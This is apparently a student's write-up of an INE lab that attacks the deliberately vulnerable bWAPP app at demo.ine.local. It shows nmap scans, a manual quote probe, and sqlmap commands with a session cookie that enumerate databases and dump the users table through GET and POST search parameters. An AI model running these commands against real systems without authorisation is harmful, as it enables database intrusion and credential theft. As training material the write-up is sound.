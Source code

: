 # SQL Injection -lab

Objective: Perform SQL Injection attack on target web application.

## Target info

* Target hostname: demo.ine.local
* IP: 192.52.235.3
* Host OS: Linux 4.15 - 5.6 (Ubuntu 14.04.1)
* Web server: Apache 2.4.7, PHP 5.5.9
* DBMS: MySQL 5.5.47 (nmap) / >= 5.1 (sqlmap)
* Known credentials: bee:bug

Open ports:

* 80 - http
* 3306 - mysql

## 1. Scanning and fingerprinting

Check that target host is live:
    
    ping demo.ine.local

Run a TCP Connect port scan on target:

    nmap -p- 192.52.235.3 > nmap.txt

Found two open ports: 80 (http) and 3306 (mysql).

Run OS detection:

    nmap 192.52.235.3 -O --osscan-guess >> nmap.txt

Detected OS: Linux 4.15 - 5.6

Run MySQL version scan:

    nmap -p 3306 192.52.235.3 -sV >> nmap.txt

Detected version: MySQL 5.5.47. OS-version is also given as Ubuntu 14.04.1

## 2. SQL Injection (Get/Search)

### 2.1 Manual testing

The search function sends the following request, so the search parameter is 'title':

    http://demo.ine.local/sqli_1.php?title=Iron+Man&action=search

Performing a search for 'Iron Man', for example, returns a table with only one entry. Searching for a non-existing movie gives an expected message of 'No movies were found!'. 

Using ' as the search parameter displays an SQL-syntax error -message indicating that the title-parameter is vulnerable to injection:

![screenshot](../pentesting-basics/pictures/slqi-lab-1.jpg)

## 2.2 Testing with sqlmap

Test the sqli_1.php for injection vulnerabilities with the following command:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0"

The test found three injection methods: error-based, time-based and union query:

![screenshot](../pentesting-basics/pictures/slqi-lab-3.jpg)

The test also gives the following info about the system:

* Operating system: Linux Ubuntu
* Web application technology: Apache 2.4.7, PHP 5.5.9
* back-end DBMS: MySQL >= 5.1

Retrieve the databases with the --dbs option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" --dbs

Databases found: bWAPP, information_schema, mysql, performance_schema.

Retrieve the current database user with the --current-user option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U --current-user

Database user: root@localhost

Retrieve the current database with the --current-db option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U --current-db

Database name: bWAPP

Retrieve the current database tables with the --tables option:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U --tables

Tables in the bWAPP -database:

* blog
* heroes
* movies
* users
* visitors

Retrieve data of the 'users' table:

    sqlmap -u "http://demo.ine.local/sqli_1.php?title=term" -p title --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -D "bWAPP" --technique=U -T "users" --dump

Two users are found: "bee" and "A.I.M":

![screenshot](../pentesting-basics/pictures/slqi-lab-4.jpg)

## 2. SQL Injection (POST/Search)

The search function using POST-requests sends the following body when searching for 'iron man':

    title=iron+man&action=search

Test the search with the following command:

    sqlmap -u "http://demo.ine.local/sqli_6.php" --data="title=iron+man&action=search" --cookie="PHPSESSID=ose5d8hncpkd2e9701t7ajlo65; security_level=0" -p title

Found three injection points: error-based, time-based blind and UNION query. 
